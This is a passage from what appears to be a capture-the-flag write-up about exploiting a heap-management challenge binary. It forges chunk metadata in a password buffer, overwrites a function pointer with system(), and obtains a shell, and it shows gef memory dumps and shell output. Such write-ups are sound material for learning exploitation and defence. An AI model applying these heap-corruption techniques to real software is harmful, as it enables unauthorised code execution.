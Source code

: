 At address `0x55c93c25c0c0` is where we want to overwrite, but what is above
it? The password string from before, unmodified from when we sent in our
previous string. Then down lower at address `0x55c93c25c120` we have remnant
data that we sent in with the creation of the second attraction originally.
What if we used these two buffers to make it seem like a chunk exists there.
So lets make the chunks look valid by putting the meta data between them. To
get as close to the funToString variable, since we can only send 50 characters
to the password we want to have the top of the chunk be at `0x55c93c25c040`
and the bottom at `0x55c93c25c130` or a chunk size of 0xf0, following the
table above we get our chunk to be `0xffff0`. So let's spray some of those in
there and check the results.

```  
gef➤  x/64gx 0x00005616e6e8f020  
0x5616e6e8f020 <password.3818>: 0x706d6f68436c696c      0x0000213032303279  
0x5616e6e8f030 <password.3818+16>:      0x0000000000000000
0x0000000000000000  
0x5616e6e8f040 <password.3818+32>:      0x00000000000fffff
0x00000000000ffffe  
0x5616e6e8f050 <password.3818+48>:      0x6161616161616161
0x0000000000006161                      <---  
0x5616e6e8f060 <funToString>:   0x000000000007fffe      0x000000000007fff2  
...  
0x5616e6e8f130 <line.3720+16>:  0x00000000000fff00      0x00000000000ffff0  
```

At the arrow, we can see that we now have a new chunk with 'a's in there, and
we can see that the chunk metadata changed resulting in corruption of the
funToString variable as well. Which will be called in various function
depending on the attraction type so, it is best to make sure that the first is
safe, just to be sure. Any address will work, as long as the program can read
that memory address, I used the binary base.

Since we don't quite have enough characters to write all the way to
submitFuncs we just need to create one more attraction and then we can get the
overwrite we need.

```  
0x5627ec18b0c0 <submitFuncs>:   0x00007fea2806e3a0      0x00005627ec18894c

gef➤  print &system  
$1 = (<text variable, no debug info> *) 0x7fea2806e3a0 <system>  
```

Now all that is left is to rename the first variable to ''/bin/sh' then submit
our design for a shell!

```  
$ 5  
The theme park design has been submitted! Let's take a look at the expected
park experience.  
$ ls  
flag.txt  
libcageheap.so  
lilchompys  
$ id  
uid=1000(lilchompys) gid=1000(lilchompys) groups=1000(lilchompys)  
```
